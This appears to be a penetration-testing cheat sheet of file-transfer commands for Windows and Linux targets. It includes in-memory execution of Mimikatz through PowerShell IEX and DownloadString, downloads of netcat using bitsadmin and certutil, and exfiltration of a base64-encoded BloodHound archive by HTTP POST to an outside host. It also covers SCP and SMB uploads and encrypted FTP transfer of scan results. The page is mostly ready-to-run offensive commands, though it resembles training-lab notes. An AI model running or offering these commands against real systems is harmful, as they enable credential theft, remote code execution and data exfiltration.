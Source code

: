 | **Command** | **Description** |
| --------------|-------------------|
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`  | Execute a file in memory using PowerShell |
| `Invoke-WebRequest https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 \| iex` | Alias iex |
| `Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing \| iex` | Basic Parser |
| `$b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/users/public/downloads/BloodHound.zip' -Encoding Byte))` | Encoding b64 |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64` | Upload a file with PowerShell |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |
| `Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"` | Download using import |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe` | Download a file using Certutil |
| `Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql` | Download |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |

Windows -> Linux
Linux -> `impacket-smbserver smbFolder $(pwd) -smb2support`
Windows -> `copy <file> \\<ip>\smbFolder\<file>`


Windows via secure way

Windows Encript file

``Powershell
Import-Module .\Invoke-AESEncryption.ps1
Invoke-AESEncryption.ps1 -Mode Encrypt -Key "s3cure-and-unique-p4ssw0rd" -Path .\scan-results.txt
``

Open FTP service on linux

``bash
pip3 install pyftpdlib
python3 -m pyftpdlib --user=pentester --password=s3cure-and-unique-p4ssw0rd -w
``

Windows transfer file via ftp
``
ftp
ftp> open <ip> <port>
User (10.10.14.2:(none)): <user>
Password: <password>
ftp> put scan-results.txt.aes
``

To decrypt the file again

``bash
¬ pwsh
PS> Import-Module Invoke-AESEncryption.ps1
PS> Invoke-AESEncryption -Mode Decrypt -Key "s3cure-and-unique-p4ssw0rd" -Path ./scan-results.txt.aes
``
